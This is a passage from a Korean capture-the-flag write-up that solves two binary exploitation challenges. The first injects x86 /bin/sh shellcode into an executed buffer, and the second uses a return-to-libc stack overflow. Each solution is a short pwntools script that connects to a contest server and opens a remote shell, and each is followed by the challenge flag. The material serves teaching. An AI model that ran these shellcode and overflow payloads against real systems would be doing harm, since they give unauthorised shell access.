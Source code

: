 ![3](https://user-images.githubusercontent.com/32904385/47615078-72078580-daed-11e8-9edd-fd22e84ff5f0.png)

위의 코드는 버퍼에 0x32만큼 입력을 받고 buf의 첫번째 주소로 간다. 따라서 우리는 버퍼안에 쉘코드 즉, system(“/bin/sh”)를 실행시킬수있는 쉘코드를 버퍼안에 넣어주면 된다. 어떠한 보호기법이 설정되어 있는지를 보자. ![4](https://user-images.githubusercontent.com/32904385/47615079-7469df80-daed-11e8-9c05-a20bd155f0d8.png)

어떠한 보호기법도 설정이 되어 있지 않다. 따라서 우리는 신경안쓰고 버퍼안에다가 쉘코드를 넣으면 된다.

```python
from pwn import *
 
r=remote("110.10.189.33",19786)
payload="\x31\xc0\x99\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"
r.sendline(payload)
r.interactive()
```

![5](https://user-images.githubusercontent.com/32904385/47615081-7633a300-daed-11e8-9fd3-8158308d513f.png)

**FLAG : `Sunrin{v3ry_v3ry_strawberry}`**

<br />

* **PWN_TRAINING - 100pt**

이 문제는 파일이 없었다.

![6](https://user-images.githubusercontent.com/32904385/47615082-76cc3980-daed-11e8-8635-419532ee9a47.png)

문제를 보니 RTL을 이용하여 푸는 문제인 것 같다.

buffer부터 ebp까지가 264만큼이고 ebp+4가 return이다. 따라서

“A”*264+”BBBB”+”system주소”+”AAAA”+”/bin/sh주소”를 하면 쉘이 실행이 된다.

```python
from pwn import *
 
r=remote("110.10.189.33",12001)
 
system_add=0x8048440
sh_add=0x804a030
payload="A"*264+"BBBB"
payload+=p32(system_add)
payload+="AAAA"
payload+=p32(sh_add)
r.recvuntil("buffer :")
r.sendline(payload)
r.interactive()
```

![7](https://user-images.githubusercontent.com/32904385/47615083-77fd6680-daed-11e8-96a2-b298b809a0c7.png)

**FLAG : `Sunrin{W0w..Y0u_w1ll_b3_g0od_pwn3r!!}`**

<br />
